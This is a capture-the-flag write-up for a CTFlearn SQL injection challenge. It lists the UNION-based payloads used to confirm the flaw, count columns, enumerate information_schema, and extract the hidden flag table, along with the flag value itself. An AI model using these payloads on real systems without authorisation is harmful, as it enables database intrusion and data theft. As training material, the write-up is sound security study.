




> INJ3CTION TIME
> 
> I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command

The description hints at "UNION" being a helpful command.
This most likely means there is SQL injection possible.

It's asking for an id so it probably means it takes value input straight up and therefore doesn't require an `'` or `"` escape.

Inputting`1 or sleep(10)` confirms this assumption.

After trial and error by incrementing the number of input parameters we find that there are 4 columns in the current table: `1 UNION SELECT 1,2,3,4`

But only 3 are printed. 

Using SQL builtin functions we can extract some information about the database and the environment

Running `1 AND 0 UNION SELECT user(),schema(),version(),4` returns

Knowing the current database means we can extract all the users from it.
In this case:
`1 AND 0 UNION SELECT * from webeight LIMIT 100 --`

This still doesn't give us the flag...

We can list all the tables in the database by inputting:
`1 AND 0 UNION Select 1,2,table_name,3 from information_schema.tables`

One table is named : `w0w_y0u_f0und_m3` 

By listing all the columns and associated tables, we can see the name of the columns in the `w0w_y0u_f0und_m3` table:
The query is : `1 AND 0 UNION Select 1,table_name,column_name,3 from information_schema.columns`
The column name is `f0und_m3`

Finally by running : `1 AND 0 UNION Select 1,2, f0und_m3,3 from w0w_y0u_f0und_m3`
We get the flag back.

Flag: `abctf{uni0n_1s_4_gr34t_c0mm4nd}`
